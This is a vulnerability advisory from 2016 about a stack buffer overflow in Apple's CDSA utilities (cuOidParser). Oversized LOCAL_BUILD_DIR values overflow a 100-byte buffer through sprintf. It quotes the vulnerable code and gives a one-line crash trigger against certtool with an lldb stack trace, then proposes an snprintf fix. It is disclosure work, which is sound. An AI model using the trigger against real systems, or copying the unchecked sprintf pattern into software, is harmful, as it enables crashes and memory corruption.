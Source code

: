 VuNote
======

	Author:	        <github.com/tintinweb>, pinky
	Ref:            https://github.com/tintinweb/pub/tree/master/pocs/nocve-2017-macos-oidparser-certtool
	Version:        0.2
	Date:           Oct 09th, 2016

	Tag:            certtool cuOidParser sprintf buffer overwrite

Overview
--------

	Name:              Cryptographic services - libsecurity_cdsa_utils
	Vendor:            Apple Computer, Inc
	References:        [1]

	Version:           macOS (10.6)
	Latest Version:	   -
	Other Versions:    <= 10.6 (at least). verified not affected >= 10.12
	Platform(s):       OS x, Linux
	Technology:        C++

	Vuln Classes:      CWE-120: Buffer Copy without Checking Size of Input
	Origin:	           local
	Min. Privs.:       -

	CVE:

	* NOTE:            Marked as Deprecated Technologies
                       /!\ This issue was silently fixed between 10.6 and 10.12



Description
---------

The CDSA utilities are part of the Cryptographic Services provided by Apple Computer Inc [4].

quote website [4]

>CDSA is an Open Source security architecture adopted as a technical standard by the Open Group. Apple has developed its own Open Source implementation of CDSA, available as part of Darwin at Apple’s Open Source site. The core of CDSA is CSSM (Common Security Services Manager), a set of Open Source code modules that implement a public application programming interface called the CSSM API. CSSM provides APIs for cryptographic services (such as creation of cryptographic keys, encryption and decryption of data), certificate services (such as creation of digital certificates, reading and evaluation of digital certificates), secure storage of data, and other security services (see Apple CDSA Plug-ins for a more complete list).

Summary
-------

The CDSA Util library as part of the cryptographic services provided by Apple
Computer Inc is missing a bounds-check for a stack buffer in `ooidparser` when processing the
environment variable `LOCAL_BUILD_DIR`.
In `cuOidParser.cpp::readConfig` an environment variable `CONFIG_FILE_ENV="LOCAL_BUILD_DIR"` is being read. This input is of arbitrary length but copied to a fixed 100 character array `filename`.
By providing a value of more than 100 characters to that environment variable the stack buffer
`filename` is overwritten and consequently the pointer to `localBuildDir` on the stack.
This library is, for example, used in certtool [5] which is used for the
attached PoC.

Note: macOS 10.12 (or before) was silently patched to use `asprintf` instead of `sprintf` and is therefore not affected anymore



Details
-------

The vulnerable code is located in `cuOidParser.cpp` [3] at line 127.
The function `sprintf(dest, format, ...)` sends formatted output to the
string dest. As the formatted string is composite of `localBuildDir`
and `CONFIG_FILE_NAME` the length of the destination can be exceeded.
Consequently dest is 'overwritten' if the formatted string does not fit.

	121		char fileName[100];
	122		char *localBuildDir  = getenv(CONFIG_FILE_ENV);
	123		if(localBuildDir == NULL) {
	124			rtn = 1;
	125		}
	126		else {
	127			sprintf(fileName,  "%s/%s", localBuildDir, CONFIG_FILE_NAME);
	128			rtn = readFileExtra(fileName, 1, &configData->Data,
	129				&configData->Length);
	130		}

The variable `filename` is defined with a length of 100 characters as can
be seen in lines 121. The user tainted `localBuildDir` read from the
environment variable `CONFIG_FILE_EMV` (line 122) is used in line 127 and
creates the stack overflow.

Proof of Concept
----------------

Prerequisites:
* OS X with installed certtool
* any input certificate to display (.pem format)

1. Create a certificate, we use `lala.pem`

2. Run `LOCAL_BUILD_DIR=$(python -c 'print "A"*300') certtool d lala.pem` to trigger the overflow.

Additionally

3. Use a debugging tool like `lldb` to collect a stack trace by calling
`LOCAL_BUILD_DIR=$(python -c 'print "A"*300') lldb -- certtool d lala.pem` and
run the code in lldb.

Exec:

	brain1-1:~ pinky$ LOCAL_BUILD_DIR=$(python -c 'print "A"*300') lldb -- certtool d lala.pem
	(lldb) target create "certtool"
	Current executable set to 'certtool' (x86_64).
	(lldb) settings set -- target.run-args  "d" "lala.pem"
	(lldb) run
	Process 34489 launched: '/usr/bin/certtool' (x86_64)
	Process 34489 stopped
	* thread #1: tid = 0x211e05, 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10, queue = 'com.apple.main-thread', stop reason = signal SIGABRT
	    frame #0: 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10
	libsystem_kernel.dylib`__pthread_kill + 10:
	-> 0x7fff8e681866:  jae    0x7fff8e681870            ; __pthread_kill + 20
	   0x7fff8e681868:  movq   %rax, %rdi
	   0x7fff8e68186b:  jmp    0x7fff8e67e175            ; cerror_nocancel
	   0x7fff8e681870:  retq
	(lldb) bt all
	* thread #1: tid = 0x211e05, 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10, queue = 'com.apple.main-thread', stop reason = signal SIGABRT
	  * frame #0: 0x00007fff8e681866 libsystem_kernel.dylib`__pthread_kill + 10
	    frame #1: 0x00007fff8741235c libsystem_pthread.dylib`pthread_kill + 92
	    frame #2: 0x00007fff89ae1bc6 libsystem_c.dylib`__abort + 145
	    frame #3: 0x00007fff89ae2479 libsystem_c.dylib`__stack_chk_fail + 196
	    frame #4: 0x0000000100006a34 certtool`___lldb_unnamed_function115$$certtool + 250

Proposed Patch
--------------

Limit the characters written by changing `sprintf` for `snprintf` with the size of the destination buffer (-1 for the `\0`).

	127	- sprintf(..,...)
	127	+ snprintf(filename, sizeof(filename)-1, "%s/%s", ...)

Notes
-----
If `LOCAL_BUILD_DIR=$(python -c 'print "A"*300') certtool d lala.pem` as in
step 2) of the PoC the program will abort with `Abort trap: 6`, the binary is most likely compiled with the `fortify_source`.
However, this might not be the case for third party applications using this library.

References
----------

	[1] https://developer.apple.com/library/content/documentation/Security/Conceptual/cryptoservices/CDSA/CDSA.html
	[2] https://github.com/Apple-FOSS-Mirror/Security
	[3] https://github.com/Apple-FOSS-Mirror/Security/tree/master/libsecurity_cdsa_utils
	[4] https://developer.apple.com/library/prerelease/content/documentation/Security/Conceptual/cryptoservices/Introduction/Introduction.html
	[5] https://github.com/Apple-FOSS-Mirror/Security/blob/7adf341b856468eac2593bbd8db85b19a785bc42/libsecurity_cdsa_utils/lib/cuOidParser.cpp

Contact
-------

	https://github.com/tintinweb